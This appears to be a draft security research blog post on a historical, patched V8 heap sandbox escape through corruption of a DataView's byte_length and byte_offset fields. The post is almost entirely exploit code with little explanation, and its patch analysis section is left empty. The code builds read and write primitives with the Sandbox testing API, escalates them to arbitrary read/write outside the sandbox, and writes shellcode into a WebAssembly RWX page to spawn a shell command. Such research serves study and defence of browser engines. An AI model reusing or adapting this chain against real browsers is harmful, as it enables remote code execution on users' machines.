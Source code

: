 +++
tags = ["browser","v8","chromium"]
categories = ["Web Browsers", "Javascript Engines", "Chromium"]
description = "Corruption of the DataView object's `byte_length` and `byte_offset` fields results in arbitrary read and write primitives external to the heap sandbox."
date = "2023-01-20"
featuredpath = "date"
linktitle = ""
title = "Exploring Historical V8 Heap Sandbox Escapes II"
slug = "exploring-historical-v8-heap-sandbox-escapes-ii"
type = "post"
draft = true
+++

## Overview

Corruption of the DataView object's `byte_length` and `byte_offset` fields results in arbitrary read and write primitives external to the heap sandbox.

You can find the patch for this heap sandbox escape here: [\[sandbox\] Introduce BoundedSize](https://chromium-review.googlesource.com/c/v8/v8/+/3876823).


## Patch Analysis

...


## Exploit Primitives

```js
const addrof = o => {
  return Sandbox.getAddressOf(o);
};

const weak_read = p => {
  let reader = new Sandbox.MemoryView(p, 64);
  let view = new DataView(reader);
  return view.getBigUint64(0, true); 
};

const weak_write = (p, x) => {
  let writer = new Sandbox.MemoryView(p, 64);
  let view = new DataView(writer);
  view.setBigUint64(0, x, true);
};
```


## DataView Object Overview 

```js
let buf = new ArrayBuffer(128);
let view = new DataView(buf);

%DebugPrint(view);
```


## DataView Byte Offset Corruption

```js
let buf = new ArrayBuffer(128);
let view = new DataView(buf);

%DebugPrint(view);
%SystemBreak();
%DebugPrint(view);
```


## Arbitrary Read Primitive

```js
let heap = (weak_read(0x18) >> 32n) << 32n;
let store = heap + ((weak_read(addrof(buf) + 0x20) & 0xffffffffn) << 8n);
let offset = 0xffffffffffffffffn - store + 1n;

weak_write(addrof(view) + 0x10, offset);              /* view.byte_offset */
weak_write(addrof(view) + 0x18, 0xffffffffffffffffn); /* view.byte_length */
```

```js
const strong_read = p => {
  return view.getBigUint64(Number(p), true);
};
```


## Arbitrary Write Primitive

```js
const strong_write = (p, x) => {
  return view.setBigUint64(Number(p), x, true);
};
```


## Code Execution

```js
let wasm = new Uint8Array([
  0x00, 0x61, 0x73, 0x6d, 0x01, 0x00, 0x00, 0x00, 0x01, 0x85, 0x80, 0x80, 0x80,
  0x00, 0x01, 0x60, 0x00, 0x01, 0x7f, 0x03, 0x82, 0x80, 0x80, 0x80, 0x00, 0x01,
  0x00, 0x04, 0x84, 0x80, 0x80, 0x80, 0x00, 0x01, 0x70, 0x00, 0x00, 0x05, 0x83,
  0x80, 0x80, 0x80, 0x00, 0x01, 0x00, 0x01, 0x06, 0x81, 0x80, 0x80, 0x80, 0x00,
  0x00, 0x07, 0x91, 0x80, 0x80, 0x80, 0x00, 0x02, 0x06, 0x6d, 0x65, 0x6d, 0x6f,
  0x72, 0x79, 0x02, 0x00, 0x04, 0x6d, 0x61, 0x69, 0x6e, 0x00, 0x00, 0x0a, 0x8a,
  0x80, 0x80, 0x80, 0x00, 0x01, 0x84, 0x80, 0x80, 0x80, 0x00, 0x00, 0x41, 0x2a,
  0x0b
]);
let module = new WebAssembly.Module(wasm);

let instance = new WebAssembly.Instance(module);
let rwx = weak_read(addrof(instance) + 0x60);

let shellcode = [
  0x732f6e69622fb848n,
  0x66525f5450990068n,
  0x15e8525e54632d68n,
  0x4c50534944000000n,
  0x302e303a273d5941n,
  0x00636c6163782027n,
  0x0f583b6a5e545756n,
  0x0000000000000005n
];

for (let i = 0; i < shellcode.length; i++)
  strong_write(rwx + (8n * BigInt(i)), shellcode[i]);

instance.exports.main();
```


## References
 - [\[sandbox\] Introduce BoundedSize](https://chromium-review.googlesource.com/c/v8/v8/+/3876823)
